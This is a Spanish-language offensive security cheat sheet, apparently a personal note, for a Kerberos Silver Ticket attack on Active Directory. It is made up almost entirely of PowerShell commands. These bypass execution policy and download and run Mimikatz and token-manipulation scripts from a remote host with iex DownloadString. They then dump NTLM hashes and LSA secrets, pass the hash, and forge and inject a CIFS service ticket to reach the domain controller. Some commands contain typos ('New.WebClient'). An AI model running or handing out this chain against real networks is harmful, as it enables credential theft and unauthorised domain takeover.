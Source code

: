 # Silver Ticket 

Tags: #AD #Window #Powershell 

Envuelve la creación de un TGS valido para un servicio especifico donde el hash de la contraseña es obtenido. Esto permite un acceso no autorizado al servicio forjando por TGS modificado. Los 'Silver Tickets' tienen un alcance mas pequeño comparado a los 'Golden Tickets', como solo proveer acceso a un recurso especifico en el sistema host y recurso. Los atacantes pueden forjar un 'Silver Ticket' para crear y usar TGS sin interactuar con los KDC.

```powershell 
❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 
 	
❯ . .\PowerView.ps1                          # Importamos el modulo
❯ Get-Domain                                 # Verificamos el dominio 
❯ Get-DomainSID                              
❯ Find-LocalAdminAccess                      # Descubrir maquinas en el AD donde el user tiene acceso local de Admin
❯ Enter-PSSession <seclogs.domian.local>     # Nos autenticamos a la sesion local via remota en el 'DOMINIO' 
	❯ whoami /priv                          # Miramos si tenemos los priv para elevar los privilegios 

# En la maquina del DC abrimos un 'HFS' para transferir el archivo 'Invoke-TokenMalipulation.ps1' a la sesion remota 
	❯ cd /                                  # Nos dirigimos a la carpeta 'root' de la sesion remota 
	❯ iex (New-Object New.WebClient).DownloadString('http://IP-HFS/Invoke-TokenMalipulation.ps1')  # Descargamos en la sesion remota el modulo que se encuentra en el DC de la maquina no remota llamado 'Invoke-TokenMalipulation.ps1' por medio del 'HFS' para despues utilizarlo dentro de la misma sesion remota 
	❯ Invoke-TokenManipulation -Enumerate # Enumerara todos los token disponibles, si el 'LogonType = 2' quiere decir que el usuario admin esta loggeado

	❯ iex (New-Object New.WebClient).DownloadString('http://IP-HFS/Invoke-Mimikatz.ps1')
		❯ Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords"' # Nos muestra el hash NTLM de todos los usuarios asi como el del 'Admin'
```

```powershell
# Abrimos una nueva consola de Poweshell como 'Admin'
❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 
 	
❯ . .\Invoke-Mimikatz.ps1                    # Importamos el modulo 
❯ Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:<Domain> /ntlm:<hash NTLM> /run:powershell.exe"' 
# Hacemos el 'Pass-The-Hash' e ingresamos como el usuario 'Administrator'
```

```powershell 
# El comando anteriro despliega una nueva venta en Powershell como 'Admin'
❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 

❯ . .\Invoke-Mimikatz.ps1                    # Importamos el modulo 
❯ Invoke-Mimikatz -Command '"lsadump::lsa /inject"' -ComputerName <DomainController> # Muestra info para el 'Silver Ticket'
```

```powershell
# En una nueva Powershell 
❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas

❯ . .\PowerView.ps1                          # Importamos el modulo
❯ Get-DomainSID                              # Obtenemos el SID

❯ . .\Invoke-Mimikatz.ps1                    # Importamos el modulo 
❯ Invoke-Mimikatz -Command '"kerberos::golden /domain:<Domain> /sid:12345 /target:<DomainController> /service:CIFS /rc4:<NTLM_Hash> /user:administrator /ptt"'       # Generamos e inyectamos nuestro 'Silver Ticket' 

❯ ls \\DomainController\C$                   # Verificar si ingresamos al 'Domain Controller'
```